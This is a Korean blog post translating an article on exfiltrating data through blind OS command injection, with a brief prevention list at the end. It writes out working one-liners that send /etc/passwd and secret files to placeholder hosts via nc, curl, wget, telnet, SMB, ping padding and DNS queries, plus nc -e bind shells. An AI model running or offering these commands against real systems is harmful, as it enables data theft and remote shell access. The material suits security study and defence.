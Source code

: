 ```yaml
---
layout: post
title:  "Blind OS Command Injection"
tag:   Survey
categories: IoT system persu
---
```



### 본 문서는 아래 URL을 알기 쉽게 번역한 내용이므로, 상세 내용은 아래 URL을 참조하세요.

번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/

### 제목 : Blind OS Command Injection을 통한 데이터 추출

### blind OS Command Injection
사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.

기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
- https://www.owasp.org/index.php/Command_Injection

<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">

위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.

그 예로 ping을 이용한 방법이다.
- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어

<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">

위 그림은 다중 명령어를 사용할 수 있는 방법이다.
상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.

- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/

지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.

1. NetCat (NC)

NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.

- 사용법 : https://en.wikipedia.org/wiki/Netcat
-  nc –l –p {port} < {file/to/extract}

<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">

 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.

```
persu$ nc -l -p 5555 < /etc/passwd&
persu$ netstat -an |grep 5555
tcp4       0      0  *.5555                 *.*                    LISTEN
```
5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.

```
persu$ nc 127.0.0.1 5555
##
# User Database
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.

2. cURL

cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/CURL
- cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt

<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">

위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.

또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}

<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">

위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.

솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...

3. WGET

Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/Wget
- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션

<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">

위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.

추가적으로 사용할 수 있는 명령어는 아래와 같다.

- wget –header=”evil:`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">

- wget –post-data exfil=`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">

- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx

특정 파일을 post body 영역에 전송하는 명령어

<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">

4. SMB

Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.

- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt

<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">

잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.

5. TELNET

TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)

- 사용법 : https://en.wikipedia.org/wiki/Telnet
- telnet xxx.xxx.xxx.xxx {port} < {file to transfer}

<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">

공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.

6. ICMP

ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.

- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done

<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">

<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">

이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)

그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.

7. DNS

DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.

- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">

DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.

8. 추가 내용

- nc -l -p 9090 -e cmd.exe (Windows)
- nc -l -p 9090 -e /bin/bash (*nix)

위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.

```
Victim :  persu$ nc -l -p 9090 -e /bin/bash
Attacke : persu$ nc 127.0.0.1 9090
id
uid=501(persu)
```

### Blind OS Command Injection Prevention

OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.

- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
- 낮은 권한의 웹 서비스 데몬 실행
- 웹 서비스에 대한 정기적인 로그 검토

어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
